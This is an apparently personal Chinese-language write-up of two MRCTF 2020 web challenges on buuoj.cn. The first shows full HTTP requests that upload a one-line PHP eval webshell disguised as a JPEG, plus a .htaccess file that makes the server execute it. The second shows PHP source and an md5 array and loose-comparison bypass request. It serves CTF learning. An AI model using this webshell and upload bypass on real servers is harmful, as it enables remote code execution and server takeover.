

# MRCTF 2020

## 你传你M呢

> *2021/07/15*

### 题目

这个题很明显是一道**文件上传**的题目，进入页面


发现了一个上传的地方，就可以开始试验了，先传一个正常文件



发现上传后爆出了路径`/var/www/html/upload/797cfc851dce9d3fa8dc31e4e51690fe/bme.jpg`，那就开始试验**图片马**，可以发现内容其实**可上传的东西**很多，但是**文件尾缀名**很严格，这就需要我们用一些方法来将**图片马**解析为`php`文件，最简单的肯定是**解析漏洞**，正巧服务器也是**Nginx**，试了一下发现并不行，这时候就要转换思路，这里我们采用上传`.htaccess`文件，来使得服务器将**图片**解析为`php`，而且后台并没有对该文件做过滤，上传改文件之后，蚁剑连接之前的**图片马**，得到`flag`

### payload

```http
POST /upload.php HTTP/1.1
Host: f3dcb447-bd60-4504-a5fb-edac13762c97.node4.buuoj.cn
Content-Length: 318
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://f3dcb447-bd60-4504-a5fb-edac13762c97.node4.buuoj.cn
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryWKBrqt1O5reejsLg
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://f3dcb447-bd60-4504-a5fb-edac13762c97.node4.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0; PHPSESSID=bd677f20100dbfa043cfaa997a5224dc
Connection: close

------WebKitFormBoundaryWKBrqt1O5reejsLg
Content-Disposition: form-data; name="uploaded"; filename="bme.jpg"
Content-Type: image/jpeg

<?php eval($_POST['bme']);?>
------WebKitFormBoundaryWKBrqt1O5reejsLg
Content-Disposition: form-data; name="submit"

一键去世
------WebKitFormBoundaryWKBrqt1O5reejsLg--
```

```http
POST /upload.php HTTP/1.1
Host: f3dcb447-bd60-4504-a5fb-edac13762c97.node4.buuoj.cn
Content-Length: 394
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://f3dcb447-bd60-4504-a5fb-edac13762c97.node4.buuoj.cn
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryWKBrqt1O5reejsLg
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://f3dcb447-bd60-4504-a5fb-edac13762c97.node4.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0; PHPSESSID=bd677f20100dbfa043cfaa997a5224dc
Connection: close

------WebKitFormBoundaryWKBrqt1O5reejsLg
Content-Disposition: form-data; name="uploaded"; filename=".htaccess"
Content-Type: image/jpeg

<FilesMatch "bme.jpg">
SetHandler application/x-httpd-php #匹配到的文件按照php解析
AddHandler php5-script .jpg #其他按照jpg解析
</FilesMatch>
------WebKitFormBoundaryWKBrqt1O5reejsLg
Content-Disposition: form-data; name="submit"

一键去世
------WebKitFormBoundaryWKBrqt1O5reejsLg--

```

## Ez_bypass

> *2021/07/15*

### 题目

题目一进去给了一大段代码

```php
<?php
include 'flag.php';
$flag='MRCTF{xxxxxxxxxxxxxxxxxxxxxxxxx}';
if(isset($_GET['gg'])&&isset($_GET['id'])) {
    $id=$_GET['id'];
    $gg=$_GET['gg'];
    if (md5($id) === md5($gg) && $id !== $gg) {
        echo 'You got the first step';
        if(isset($_POST['passwd'])) {
            $passwd=$_POST['passwd'];
            if (!is_numeric($passwd))
            {
                 if($passwd==1234567)
                 {
                     echo 'Good Job!';
                     highlight_file('flag.php');
                     die('By Retr_0');
                 }
                 else
                 {
                     echo "can you think twice??";
                 }
            }
            else{
                echo 'You can not get it !';
            }

        }
        else{
            die('only one way to get the flag');
        }
}
    else {
        echo "You are not a real hacker!";
    }
}
else{
    die('Please input first');
}
} 
```

这道题没啥难度，主要是**md5的弱等于绕过采用数组绕过**，以及**字符串与数字的弱等于**

### payload

```http
POST /?gg[]=1&id[]=2 HTTP/1.1
Host: a1d7ece0-2608-4207-ad35-62424424bed4.node4.buuoj.cn
Content-Length: 15
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://a1d7ece0-2608-4207-ad35-62424424bed4.node4.buuoj.cn
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://a1d7ece0-2608-4207-ad35-62424424bed4.node4.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0
Connection: close

passwd=1234567a
```

